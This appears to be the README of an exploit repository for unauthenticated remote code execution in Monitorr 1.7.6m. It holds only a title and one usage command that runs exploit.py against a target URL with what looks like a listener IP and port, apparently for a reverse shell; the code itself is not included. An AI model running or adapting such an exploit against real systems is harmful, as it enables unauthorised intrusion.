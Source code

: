 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``python exploit.py https://domain.com 10.6.27.220 443``
